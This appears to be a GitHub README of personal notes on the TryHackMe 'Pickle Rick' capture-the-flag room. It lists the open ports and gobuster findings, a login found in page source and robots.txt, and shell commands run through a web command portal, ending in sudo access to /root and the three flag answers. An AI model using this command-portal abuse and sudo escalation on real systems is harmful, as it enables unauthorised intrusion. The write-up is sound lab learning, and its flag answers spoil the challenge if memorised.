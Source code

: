 # thm_notes
Documentation of rooms I complete on THM

# room/picklerick

OS: Ubuntu

Ports:
```
22/tcp OpenSSH
80/tcp Apache 2.4.18
```

DNS:
```
ip-10-10-188-147.eu-west-1.compute.internal
```

gobuster:
```
/assets
/server-status
```

Users:
```
R1ckRul3s
```
Robots.txt
```
Wubbalubbadubdub
```

/login.php
```
R1ckRul3s:Wubbalubbadubdub
```
/portal
> execute
```
ls -al
# Shows dir with files
sudo -l
# can use sudo
less Sup3rS3cretPickl3Ingred.txt
# mr. meeseek hair

less clue.txt

# look around dir

ls /home

# shows ubuntu and rick dir
"second ingredient"
less /home/rick/"second ingredient"

1 jerry tear

# checking root dir with sudo
sudo ls /root
# 3rd.txt

sudo less /root/3rd.txt

# fleeb juice
```
